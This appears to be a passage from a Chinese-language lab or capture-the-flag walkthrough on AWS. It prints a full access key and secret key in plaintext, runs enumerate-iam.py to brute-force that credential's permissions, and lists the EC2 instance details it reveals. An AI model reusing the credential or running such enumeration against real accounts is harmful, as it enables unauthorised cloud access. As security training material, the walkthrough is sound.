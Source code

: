 枚举一下权限

```bash
> python3.11 enumerate-iam.py --access-key AKIAXYAFLIG2CSJQ4R5Y --secret-key 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

2024-05-26 13:27:43,303 - 76585 - [INFO] Starting permission enumeration for access-key-id "AKIAXYAFLIG2CSJQ4R5Y"
2024-05-26 13:27:44,786 - 76585 - [INFO] -- Account ARN : arn:aws:iam::532587168180:user/snapper
2024-05-26 13:27:44,786 - 76585 - [INFO] -- Account Id  : 532587168180
2024-05-26 13:27:44,786 - 76585 - [INFO] -- Account Path: user/snapper
2024-05-26 13:27:45,013 - 76585 - [INFO] Attempting common-service describe / list brute force.
2024-05-26 13:27:53,068 - 76585 - [INFO] -- sts.get_session_token() worked!
2024-05-26 13:27:53,290 - 76585 - [INFO] -- sts.get_caller_identity() worked!
2024-05-26 13:27:57,861 - 76585 - [INFO] -- ec2.describe_instances() worked!
2024-05-26 13:28:00,067 - 76585 - [INFO] -- dynamodb.describe_endpoints() worked!
2024-05-26 13:36:22,929 - 76585 - [INFO] -- ec2.describe_snapshots() worked!
```

查看ec2实例和快照权限

- `> aws ec2 describe-instances`
    
    ```json
    
    {
        "Reservations": [
            {
                "Groups": [],
                "Instances": [
                    {
                        "AmiLaunchIndex": 0,
                        "ImageId": "ami-0a62069ec7788c8be",
                        "InstanceId": "i-0e5dabca0fa9f222f",
                        "InstanceType": "t2.medium",
                        "KeyName": "felamos",
                        "LaunchTime": "2024-05-07T15:23:42+00:00",
                        "Monitoring": {
                            "State": "disabled"
                        },
                        "Placement": {
                            "AvailabilityZone": "us-east-1d",
                            "GroupName": "",
                            "Tenancy": "default"
                        },
                        "Platform": "windows",
                        "PrivateDnsName": "ip-172-31-93-160.ec2.internal",
                        "PrivateIpAddress": "172.31.93.160",
                        "ProductCodes": [],
                        "PublicDnsName": "ec2-54-208-244-117.compute-1.amazonaws.com",
                        "PublicIpAddress": "54.208.244.117",
                        "State": {
                            "Code": 16,
                            "Name": "running"
                        },
                        "StateTransitionReason": "",
                        "SubnetId": "subnet-0a5022ff1dfdf5518",
                        "VpcId": "vpc-0d7b2c5c8509574bd",
                        "Architecture": "x86_64",
                        "BlockDeviceMappings": [
                            {
                                "DeviceName": "/dev/sda1",
                                "Ebs": {
                                    "AttachTime": "2024-05-07T14:07:29+00:00",
                                    "DeleteOnTermination": true,
                                    "Status": "attached",